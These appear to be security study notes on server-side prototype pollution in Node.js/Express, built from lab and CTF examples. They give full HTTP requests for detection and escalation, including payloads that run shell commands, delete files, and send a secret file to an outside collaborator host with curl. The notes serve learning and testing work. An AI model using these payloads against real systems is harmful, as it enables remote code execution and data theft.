


# General PPSS detection

Server-side prototype pollution is generally more difficult to detect than its client-side variant:

- **No source code access**
- **Lack of developer tools**
- **The DoS problem** [^DOS]
- **Pollution persistence**

[^DOS]: https://portswigger.net/research/server-side-prototype-pollution

To facilitate the detection, Port Swigger developed an appropriate extension: Server-Side Prototype Pollution Scanner [^SSPP-scanner]

[^SSPP-scanner]: https://portswigger.net/bappstore/c1d4bd60626d4178a54d36ee802cf7e8

## Detecting server-side prototype pollution via polluted property reflection

If the application later includes the returned properties in a response, this can provide a simple way to probe for server-side prototype pollution.
`POST` or `PUT` requests that submit JSON data to an application or API are prime candidates for this kind of behavior as it's common for servers to respond with a JSON representation of the new or updated object.

>[!tip]
>Any features that involve updating user data are worth investigating as these often involve merging the incoming data into an existing object that represents the user within the application.

```http
POST /my-account/change-address HTTP/2
Host: 0a78000a0322825c8031d52400a80096.web-security-academy.net
Cookie: session=j3iHkMF3RHMljUc7geZ5vDq5ONjh3cs2
...
{
    "user":"wiener",
    "firstName":"Peter",
    "lastName":"Wiener",
    "__proto__":{
        "isAdmin":"true"
    }
}
```

If the website is vulnerable, your injected property would then appear in the updated object in the response (in this case, we set the `isAdmin` value to `true`):

```http
HTTP/1.1 200 OK
...
{
    "username":"wiener",
    "firstName":"Peter",
    "lastName":"Wiener",
    "isAdmin":"true"
}
```

## Detecting server-side prototype pollution via Status code override

Server-side JavaScript frameworks like Express allow developers to set custom HTTP response statuses. In the case of errors, a JavaScript server may issue a generic HTTP response, but include an error object in JSON format in the body.

```http
HTTP/1.1 200 OK
...
{
    "error": {
        "success": false,
        "status": 401,
        "message": "You do not have permission to access this resource."
    }
}
```

Note's application code is the following:
```js
function createError () {
    //...
    if (type === 'object' && arg instanceof Error) {
        err = arg
        status = err.status || err.statusCode || status
    } else if (type === 'number' && i === 0) {
    //...
    if (typeof status !== 'number' ||
    (!statuses.message[status] && (status > 400 || status >= 600))) {
        status = 500
    }
//...
```

The line `status = err.status || err.statusCode || status` attempts to assign the `status` variable by reading the `status` or `statusCode` property from the object passed into the function. If the website's developers haven't explicitly set a `status` property for the error, you can potentially use this to probe for prototype pollution:

1. Trigger an error response and take note of the default status code.
```http
POST /my-account/change-address HTTP/2
Host: 0add002304f59bdf80157130002a0053.web-security-academy.net

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"018HsVERQQtRs7PMJBSbLkwbuUR6mKEg",}

---

HTTP/2 500 Internal Server Error
X-Powered-By: Express

{"error":{"expose":true,"statusCode":400,"status":400,"body":"{\"address_line_1\":\"Wiener HQ\",\"address_line_2\":\"One Wiener Way\",\"city\":\"Wienerville\",\"postcode\":\"BU1 1RP\",\"country\":\"UK\",\"sessionId\":\"018HsVERQQtRs7PMJBSbLkwbuUR6mKEg\",}","type":"entity.parse.failed"}}
```
2.  Pollute the prototype with your own `status` property (use an obscure status code in the `400`-`599` range)
```http
POST /my-account/change-address HTTP/2
Host: 0add002304f59bdf80157130002a0053.web-security-academy.net

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"018HsVERQQtRs7PMJBSbLkwbuUR6mKEg","__proto__":{"status":433}}
```
3.  Trigger the error response again and check whether you've successfully overridden the status code.
```http
POST /my-account/change-address HTTP/2
Host: 0add002304f59bdf80157130002a0053.web-security-academy.net

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"018HsVERQQtRs7PMJBSbLkwbuUR6mKEg",}

---

HTTP/2 500 Internal Server Error
X-Powered-By: Express

{"error":{"expose":true,"statusCode":433,"status":433,"body":"{\"address_line_1\":\"Wiener HQ\",\"address_line_2\":\"One Wiener Way\",\"city\":\"Wienerville\",\"postcode\":\"BU1 1RP\",\"country\":\"UK\",\"sessionId\":\"018HsVERQQtRs7PMJBSbLkwbuUR6mKEg\",}","type":"entity.parse.failed"}}
```

## Detecting server-side prototype pollution via JSON spaces override

The Express framework provides a `json spaces` option, which enables you to configure the number of spaces used to indent any JSON data in the response.
If you've got access to any kind of JSON response, you can try polluting the prototype with your own `json spaces` property, then reissue the relevant request to see if the indentation in the JSON increases accordingly.

Although the prototype pollution has been fixed in Express 4.17.4, websites that haven't upgraded may still be vulnerable.

Original response:
```json
{"username":"wiener","firstname":"Peter","lastname":"Wiener","address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","isAdmin":false}
```

Response after the object was polluted:
```http
POST /my-account/change-address HTTP/2
Host: 0add002304f59bdf80157130002a0053.web-security-academy.net

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"018HsVERQQtRs7PMJBSbLkwbuUR6mKEg","__proto__":{"json spaces":10}}

---

HTTP/2 200 OK
{
          "username": "wiener",
          "firstname": "Peter",
          "lastname": "Wiener",
          "address_line_1": "Wiener HQ",
          "address_line_2": "One Wiener Way",
          "city": "Wienerville",
          "postcode": "BU1 1RP",
          "country": "UK",
          "isAdmin": false
}
```

## Detecting server-side prototype pollution via charset override

Express servers often implement so-called "middleware" modules that enable preprocessing of requests before they're passed to the appropriate handler function. For example, the `body-parser` module is commonly used to parse the body of incoming requests in order to generate a `req.body` object. This contains another gadget that you can use to probe for server-side prototype pollution.

```js
var charset = getCharset(req) || 'utf-8'

function getCharset (req) {
    try {
        return (contentType.parse(req).parameters.charset || '').toLowerCase() // parameters.charset may be controllable via prototype pollution
    } catch (e) {
        return undefined
    }
}

read(req, res, next, parse, debug, {
    encoding: charset,
    inflate: inflate,
    limit: limit,
    verify: verify
})
```

1. Add an arbitrary UTF-7 encoded string to a property that's reflected in a response
```json
{ "sessionId":"0123456789", "username":"wiener", "role":"+AGYAbwBv-" }
```
2. Send the request. Servers won't use UTF-7 encoding by default, so this string should appear in the response in its encoded form.
3. Try to pollute the prototype with a `content-type` property that explicitly specifies the UTF-7 character set:
```json
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"default",
    "__proto__":{
        "content-type": "application/json; charset=utf-7"
    }
}
```
4. Repeat the first request. If you successfully polluted the prototype, the UTF-7 string should now be decoded in the response:
```json
{ "sessionId":"0123456789", "username":"wiener", "role":"foo" }
```

# NodeJS prototype pollution examples

JavaScript was originally a client-side language designed to run in browsers. However, due to the emergence of server-side runtimes, such as the hugely popular Node.js, JavaScript is now widely used to build servers, APIs, and other back-end applications. Logically, this means that it's also possible for prototype pollution vulnerabilities to arise in server-side contexts.

## Bypassing input filters for server-side prototype pollution

- [Bypassing flawed key sanitization](Prototype%20Pollution%20client-side.md#Bypassing%20flawed%20key%20sanitization)
- [Prototype pollution via the constructor](Prototype%20Pollution%20client-side.md#Prototype%20pollution%20via%20the%20constructor)
- [Evading Restrictions](Evading%20Restrictions.md)

Example:
```json
{"username":"wiener","firstname":"Peter","lastname":"Wiener","isAdmin":false}
```

Privilege escalation exploiting prototype pollution in the constructor:
```http
POST /my-account/change-address HTTP/2
Host: 0ac4001d046684bf8131bbcc00e80083.web-security-academy.net

{
	"address_line_1":"Wiener HQ",
	"address_line_2":"One Wiener Way",
	"city":"Wienerville",
	"postcode":"BU1 1RP",
	"country":"UK",
	"sessionId":"M2C782KPkHX8wuvZZSgY3JNKs7AQbIlP",
	"constructor":{
		"prototype":{
			"isAdmin":true
		}
	}
}

---

HTTP/2 200 OK

{"username":"wiener","firstname":"Peter","lastname":"Wiener","isAdmin":true}
```

## Remote code execution via server-side prototype pollution

There are a number of potential command execution sinks in Node, many of which occur in the `child_process` module.
These are often invoked by a request that occurs asynchronously to the request with which you're able to pollute the prototype in the first place. As a result, the best way to identify these requests is by polluting the prototype with a payload that triggers an interaction with Burp Collaborator when called.

### Identifying a vulnerable request

The `NODE_OPTIONS` environment variable enables you to define a string of command-line arguments that should be used by default whenever you start a new Node process. As this is also a property on the `env` object, you can potentially control this via prototype pollution if it is undefined.

```http
POST /my-account/change-address HTTP/2
Host: 0ac900b5045ce47b8100e0a9006f00c7.web-security-academy.net

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UKs","sessionId":"bAIJlRdG9dLFl39CLXBTLsZ5qRwAjxB4","__proto__":{"shell":"node","NODE_OPTIONS":"--inspect=68c9em67d9tkezyaarw94l0r9if930rp.oastify.com\"\".oastify\"\".com"}}


200 OK
{"username":"wiener","firstname":"Peter","lastname":"Wiener","address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UKs","__prototype__":{"space":"         ","foo":"bar"},"isAdmin":true,"foo":"bar","shell":"node","NODE_OPTIONS":"--inspect=68c9em67d9tkezyaarw94l0r9if930rp.oastify.com\"\".oastify\"\".com"}
```

### Remote code execution via `child_process.fork()`

Methods such as `child_process.spawn()` and `child_process.fork()` enable developers to create new Node subprocesses. The `fork()` method accepts an options object in which one of the potential options is the `execArgv` property. This is an array of strings containing **command-line arguments** that should be used when spawning the child process. **If it's left undefined by the developers**, this potentially also means it can be controlled via prototype pollution.

```json
"execArgv": [
    "--eval=require('<module>')"
]
```

In addition to `fork()`, the `child_process` module contains the `execSync()` method, which executes an arbitrary string as a system command. By chaining these JavaScript and [Command Injection](Command%20Injection.md) sinks, you can potentially escalate prototype pollution to gain full [Remote Code Execution (RCE)](Remote%20Code%20Execution%20(RCE).md) capability on the server.

```json
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
}
```

### Remote code execution via already defined `child_process.execSync()`

In some cases, the application may invoke `child_process.execSync()` of its own accord in order to execute system commands. In this case we can try to pollute options used by this method.

The `execSync()` method also accepts options object, which may be pollutable via the prototype chain. Although this doesn't accept an `execArgv` property, you can still inject system commands into a running child process by simultaneously polluting both the `shell` and `input` properties:

- `input`: just a string that is passed to the child process's `stdin` stream and executed as a system command. The shell you choose must accept commands from `stdin`.
- `shell`: lets developers declare a specific shell in which they want the command to run. It **only accepts the name of the shell's executable** and does not allow you to set any additional command-line arguments.

By polluting both of these properties, you may be able to override the command that the application's developers intended to execute and instead run a malicious command in a shell of your choosing.

>[!warning]
>The `shell` is always executed with the `-c` argument, which most shells use to let you pass in a command as a string. However, setting the `-c` flag in Node instead runs a syntax check on the provided script, which also prevents it from executing. As a result, although there are workarounds for this, it's generally tricky to use Node itself as a shell for your attack.
>
>One additional limitation of this technique is that some tools that you might want to use for your exploit also don't read data from `stdin` by default. However, there are a few simple ways around this. In the case of `curl`, for example, you can read `stdin` and send the contents as the body of a `POST` request using the `-d @-` argument.
>
>In other cases, you can use `xargs`, which converts `stdin` to a list of arguments that can be passed to a command.

Example:
```json
"shell":"vim",
"input":":! cat /home/carlos/secret | base64 | curl -d @- https://YOUR-COLLABORATOR-ID.oastify.com\n"
```


### Remote code execution via `import`

From Node 19.0.0 the `--import` flag allows you to specify a module to load. It is possible to use the `--import` command line option to execute arbitrary JavaScript without needing anything on the filesystem.

```js
--import='data:text/javascript,console.log(1337)'

let{fork} = require('child_process');
Object.prototype.NODE_OPTIONS = "--import=\"data:text/javascript,import fs from 'node:fs';fs.writeFile('/tmp/pwnd', 'pwnd', x=>1)\"";
fork("test2.js");
```

# AST Prototype Pollution

In NodeJS, AST is used in JS really often, as template engines and typescript etc. For the template engine, the structure is as shown above, and the most used two are **Handlebars** and **Pug**. [^1]

[^1]:  https://blog.p6.is/AST-Injection/





## Pug

Example from [Gunship](https://www.notion.so/Gunship-d7aa8f7841234d1c993ba55c44ab5191) 

```http
POST /api/submit HTTP/1.1
Host: 134.209.28.38:30545
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:1337/
Content-Type: application/json
Origin: http://127.0.0.1:1337
Content-Length: 185
Connection: close

{
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync('mkdir $(cat flagtZ1pK)')"
    },
"artist.name":"Haigh"
}
```
